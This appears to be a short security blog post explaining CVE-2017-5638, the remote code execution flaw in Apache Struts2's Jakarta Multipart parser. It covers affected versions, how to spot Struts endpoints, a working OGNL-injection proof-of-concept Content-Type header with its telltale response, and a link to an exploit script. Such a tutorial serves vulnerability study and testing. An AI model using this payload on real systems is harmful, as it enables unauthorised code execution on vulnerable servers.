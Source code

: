 ```yaml
---
title: "RCE on Apache struts2 (CVE-2017-5638)"
description: "How to find and exploit CVE-2017-5638, RCE on struts2"
date: 22/09/2020
categories:
 - CVE
tags:
 - RCE
 - CVE
 - struts2
---
```




## Description

The vulnerability [CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638)
is a Remote Code Execution in the Jakarta Multipart parser used by Apache struts2.
The payload use a custom headers `Content-Type`, `Content-Disposition` or `Content-Length`.

The affected versions are:

- Apache Struts versions 2.3.x before 2.3.32
- Apache Struts versions 2.5.x before 2.5.10.1


## Exploitation

If an endpoint has URL ending with `.action`, `.do` , `.go` it might be a web
application running struts2.

Here is a small PoC, on a HTTP request add the following header:

```http
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Ack-POC', 7*7)}.multipart/form-data
```

With a vulnerable struts2 version, the server returns the following response header:

```http
X-Ack-POC: 49
```

An exploitation script can be found [here](https://www.exploit-db.com/exploits/41570).
